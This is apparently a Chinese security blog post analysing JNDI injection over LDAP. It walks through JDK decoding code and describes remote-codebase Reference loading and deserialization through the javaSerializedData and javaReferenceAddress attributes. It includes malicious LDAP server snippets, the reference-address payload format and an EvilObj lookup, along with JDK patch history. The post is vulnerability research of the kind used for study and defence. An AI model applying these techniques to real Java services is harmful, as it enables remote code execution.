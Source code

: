 ```yaml
---
title: JNDI with LDAP
tags: 
  - java
categories: notes
date: 2020-03-01 19:22:01
typora-root-url: ../../../source
---
```


## 0x00 前言

JNDI的SPI层除了RMI外，还可以跟LDAP交互。与RMI类似，LDAP也能同样返回一个Reference给JNDI的Naming Manager，本文将讲述JNDI使用ldap协议的两个攻击面XD

<!-- more -->

## 0x01 LDAP基础

关于LDAP的介绍，延伸阅读一下[这篇](https://www.cnblogs.com/wilburxu/p/9174353.html)

> LDAP can be used to store Java objects by using several special Java attributes. There are at least two ways a Java object can be represented in an LDAP directory:
>
> ● Using Java serialization
> 		o https://docs.oracle.com/javase/jndi/tutorial/objects/storing/serial.html
> ● Using JNDI References
> 		o https://docs.oracle.com/javase/jndi/tutorial/objects/storing/reference.html
>
> from https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf

Java中的LDAP可以在属性值中存储相关的Java对象，可以存储如上两种对象，而相关的问题就是出现在这部分上。

后文用的LDAP Server参考的是[mbechler 实现的LDAPRefServer](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java)，连接的客户端Client直接用JNDI的lookup完成，jdk版本jdk8u162

```java
Context ctx = new InitialContext();
ctx.lookup("ldap://127.0.0.1:1389/EvilObj");
ctx.close();
```

## 0x02 LDAP with JDNI References

JNDI发起ldap的lookup后，将有如下的调用流程，这里我们直接来关注，获得远程LDAP Server的Entry之后，Client这边是怎么做处理的

![image-20200301142213589](/images/jndi-with-ldap-20200301/image-20200301142213589.png)

跟进com/sun/jndi/ldap/Obj.java#decodeObject，按照该函数的注释来看，其主要功能是解码从LDAP Server来的对象，该对象可能是序列化的对象，也可能是一个Reference对象。关于序列化对象的处理，我们看后面一节。这里摘取了Reference的处理方式：

```java
static Object decodeObject(Attributes attrs)
    throws NamingException {
    Attribute attr;
    // Get codebase, which is used in all 3 cases.
    String[] codebases = getCodebases(attrs.get(JAVA_ATTRIBUTES[CODEBASE]));
    try {
        // ...
        attr = attrs.get(JAVA_ATTRIBUTES[OBJECT_CLASS]);// "objectClass"
        if (attr != null &&
            (attr.contains(JAVA_OBJECT_CLASSES[REF_OBJECT]) || // "javaNamingReference"
                attr.contains(JAVA_OBJECT_CLASSES_LOWER[REF_OBJECT]))) { // "javanamingreference"
            return decodeReference(attrs, codebases);
        }
      //...
```

如果LDAP Server返回的属性里包括了`objectClass`和`javaNamingReference`，将进入Reference的处理函数decodeReference上

```java
if ((attr = attrs.get(JAVA_ATTRIBUTES[CLASSNAME])) != null) {
    className = (String)attr.get();
} else {
    throw new InvalidAttributesException(JAVA_ATTRIBUTES[CLASSNAME] +
                " attribute is required");
}

if ((attr = attrs.get(JAVA_ATTRIBUTES[FACTORY])) != null) {
    factory = (String)attr.get();
}

Reference ref = new Reference(className, factory,
    (codebases != null? codebases[0] : null));
```

decodeReference再从属性中提取出`javaClassName`和`javaFactory`，最后将生成一个Reference。这里如果看过我前面的那篇[jndi-with-rmi](http://blog.0kami.cn/2020/02/09/jndi-with-rmi/)，可以看到其实这里生成的ref就是我们在RMI返回的那个ReferenceWrapper，后面这个ref将会传递给Naming Manager去处理，包括从codebase中获取class文件并载入。

而这里LDAP也类似，处理ref的对象是NamingManager的子类javax/naming/spi/DirectoryManager.java，因为跟RMI有点类似不具体分析了，最后同样由javax/naming/spi/NamingManager.java#getObjectFactoryFromReference来处理。

到这里，我们再来看mbechler 实现的LDAPRefServer就比较清楚了

![image-20200301144715061](/images/jndi-with-ldap-20200301/image-20200301144715061.png)

当其获取到LDAP连接时，将填充如上的几个属性及其对应的值，就是为了满足上面的条件而生成一个Reference对象。

## 0x03 LDAP with Serialized Object

JNDI对于属性中的序列化数据的处理一共有两个地方，我们先来顺着前面的JNDI Reference的思路说下去

#### 第一处：com/sun/jndi/ldap/Obj.java#decodeObject

在com/sun/jndi/ldap/Obj.java#decodeObject上还存在一个判断

```java
if ((attr = attrs.get(JAVA_ATTRIBUTES[SERIALIZED_DATA])) != null) {// “javaSerializedData”
    ClassLoader cl = helper.getURLClassLoader(codebases);
    return deserializeObject((byte[])attr.get(), cl);
}
```

如果在返回的属性中存在`javaSerializedData`，将继续调用`deserializeObject`函数，该函数主要就是调用常规的反序列化方式readObject对序列化数据进行还原，如下payload。

```java
@Override
protected void processAttribute(Entry entry){
  entry.addAttribute("javaClassName", "foo");
  entry.addAttribute("javaSerializedData", serialized);
}
```

这里我们就不需要通过远程codebase的方式来达成RCE，当然首先本地环境上需要有反序列化利用链所依赖的库文件。

#### 第二处：com/sun/jndi/ldap/Obj.java#decodeReference

`decodeReference`函数在对普通的Reference还原的基础上，还可以进一步对RefAddress做还原处理，其中还原过程中，也调用了`deserializeObject`函数，这意味着我们通过满足RefAddress的方式，也可以达到上面第一种的效果。

具体代码太长了，这里我就说一下条件：

1. 第一个字符为分隔符
2. 第一个分隔符与第二个分隔符之间，表示Reference的position，为int类型
3. 第二个分隔符与第三个分隔符之间，表示type，类型
4. 第三个分隔符是双分隔符的形式，则进入反序列化的操作
5. 序列化数据用base64编码

满足上面的条件，构造一个类似的

```java
protected void processAttribute(Entry entry){
  entry.addAttribute("javaClassName", "foo");
  entry.addAttribute("javaReferenceAddress","$1$String$$"+new BASE64Encoder().encode(serialized));
  entry.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
}
```

当然第二处只是一个锦上添花的步骤，我们可以直接用第一种方法，第二种在第一种不能用的情况下可以试试。

## 0x04 后续

自[jdk8u191-b02](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/rev/2db6890a9567#l1.33)版本后，新添加了`com.sun.jndi.ldap.object.trustURLCodebase`默认为false的限制，也就意味着远程codebase的Reference方式被限制死了，我们只能通过SerializedData的方法来达成利用。

我们来整理一下，关于jndi的相关安全更新

* JDK 6u132, JDK 7u122, JDK 8u113中添加了com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false。

  **导致jndi的rmi reference方式失效，但ldap的reference方式仍然可行**

* Oracle JDK 11.0.1、8u191、7u201、6u211之后 `com.sun.jndi.ldap.object.trustURLCodebase `属性的默认值被调整为false。

  **导致jndi的ldap reference方式失效，到这里为止，远程codebase的方式基本失效，除非认为设为true**

而在最新版的jdk8u上，jndi ldap的本地反序列化利用链[1](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/file/b959971e0a5a/src/share/classes/com/sun/jndi/ldap/Obj.java#l239)和[2](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/file/b959971e0a5a/src/share/classes/com/sun/jndi/ldap/Obj.java#l478)的方式仍然未失效，jndi rmi底层(JRMPListener)[StreamRemoteCall](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/file/b959971e0a5a/src/share/classes/sun/rmi/transport/StreamRemoteCall.java#l270)的本地利用方式仍未失效。

所以如果Reference的方式不行的时候，可以试试利用本地ClassPath里的反序列化利用链来达成RCE。

## 0x05 总结

JNDI和LDAP的结合，出现了2种利用方式，一是利用远程codebase的方式，二是利用本地ClassPath里的反序列化利用链。在最新版的jdk8u中，codebase的方式依赖`com.sun.jndi.ldap.object.trustURLCodebase`的值，而第二种方式仍未失效。

LDAP的使用方法除了JNDI的lookup，其他的库也会有相应的使用方法，如Spring的ldap，这里还可以继续深入下去，先挖个坑XD

最后，上面的两个ldap Server更新到了[github](https://github.com/wh1t3p1g/ysomap)上，自取XD